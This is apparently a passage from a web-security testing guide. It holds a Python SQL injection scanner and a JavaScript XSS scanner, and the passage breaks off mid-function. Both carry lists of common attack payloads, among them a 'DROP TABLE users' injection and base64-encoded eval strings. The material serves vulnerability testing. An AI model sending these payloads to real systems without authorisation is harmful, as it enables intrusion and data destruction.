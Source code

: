 ## Test Scenarios

### SQL Injection Testing
```python
# SQL Injection test patterns
sql_injection_payloads = [
    "' OR '1'='1",
    "'; DROP TABLE users--",
    "1' UNION SELECT NULL--",
    "admin' --",
    "' OR 1=1--",
    "1' AND 1=CONVERT(int, (SELECT @@version))--",
    "' WAITFOR DELAY '00:00:05'--",
    "1' AND (SELECT * FROM (SELECT(SLEEP(5)))a)--"
]

def test_sql_injection(url, param):
    vulnerabilities = []
    for payload in sql_injection_payloads:
        response = send_request(url, {param: payload})
        if detect_sql_error(response) or detect_time_delay(response):
            vulnerabilities.append({
                'type': 'SQL Injection',
                'severity': 'CRITICAL',
                'param': param,
                'payload': payload,
                'evidence': extract_evidence(response)
            })
    return vulnerabilities
```

### XSS Testing
```javascript
// XSS test vectors
const xssPayloads = [
  '<script>alert("XSS")</script>',
  '<img src=x onerror=alert("XSS")>',
  '<svg onload=alert("XSS")>',
  'javascript:alert("XSS")',
  '<iframe src="javascript:alert(\'XSS\')">',
  '<body onload=alert("XSS")>',
  '"><script>alert(String.fromCharCode(88,83,83))</script>',
  '<script>eval(atob("YWxlcnQoJ1hTUycp"))</script>',
  '<img src="x" onerror="eval(atob(\'YWxlcnQoMSk=\'))">',
  '<details open ontoggle=alert("XSS")>'
];

async function testXSS(endpoint, params) {
  const results = [];

  for (const param of params) {
    for (const payload of xssPayloads) {
      const response = await testEndpoint(endpoint, param, payload);

      if (response.body.includes(payload) && !response.headers['content-security-policy']) {
        results.push({
          vulnerability: 'XSS',
          severity: 'HIGH',
          location: `${endpoint}?${param}`,
          payload: payload,
          remediation: 'Implement input sanitization and CSP headers'
        });
      }
```